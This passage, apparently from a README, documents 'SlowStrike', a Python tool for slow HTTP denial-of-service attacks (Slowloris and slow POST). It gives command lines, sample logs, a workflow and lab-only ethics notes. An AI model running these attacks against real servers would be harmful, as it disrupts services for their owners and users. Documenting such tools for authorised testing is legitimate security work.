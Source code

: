 #### Slow POST Attack
- **Purpose**: Simulate slow POST data attacks to consume server resources.
- **Usage**:
  ```bash
  python3 slowstrike.py -t example.com -p 443 -m slowpost -c 50 -d 30
  ```
- **Output**:
  ```
  2025-05-15 16:00:00 - INFO - Starting SlowStrike against example.com:443 in slowpost mode
  2025-05-15 16:00:30 - INFO - Slow POST connection to example.com:443 completed, sent 5000 bytes
  ```
- **Tips**: Test HTTPS servers with port 443; verify server logs for connection handling.

#### Quiet Mode
- **Purpose**: Reduce terminal output.
- **Usage**:
  ```bash
  python3 slowstrike.py -t example.com -m slowloris -c 100 -d 60 -q
  ```
- **Tips**: Monitor `slowstrike.log` with `tail -f slowstrike.log`.

### Workflow
1. Set up lab (VM with web server, e.g., Apache/Nginx, network access).
2. Install dependencies:
   ```bash
   ./setup_slowstrike.sh
   ```
3. Run SlowStrike:
   ```bash
   python3 slowstrike.py -t example.com -m slowloris -c 100 -d 60
   ```
4. Monitor output in terminal or `slowstrike.log`.
5. Check results in `slowstrike-output/` (text, JSON, SQLite).
6. Stop with `Ctrl+C`; secure outputs (`rm -rf slowstrike-output/*`).

## Output
- **Logs**: `slowstrike.log`, e.g.:
  ```
  2025-05-15 16:00:00 - INFO - Starting SlowStrike against example.com:80 in slowloris mode
  2025-05-15 16:01:00 - INFO - Slowloris connection to example.com:80 completed
  ```
- **Results**: `slowstrike-output/strike_<timestamp>.txt` and `.json`.
- **Database**: `slowstrike-output/slowstrike.db` (SQLite).

## Notes
- **Environment**: Use on authorized servers/networks in your lab.
- **Impact**: Slow attacks may degrade server performance; modern servers may mitigate with timeouts or IDS.
- **Ethics**: Avoid unauthorized testing to prevent legal/security issues.
- **Dependencies**: Minimal; uses Python’s standard library.
- **Root**: Not required, but network access is needed.
- **Sources**: Built for HTTP testing, leveraging web security concepts and Kali Linux toolsets.
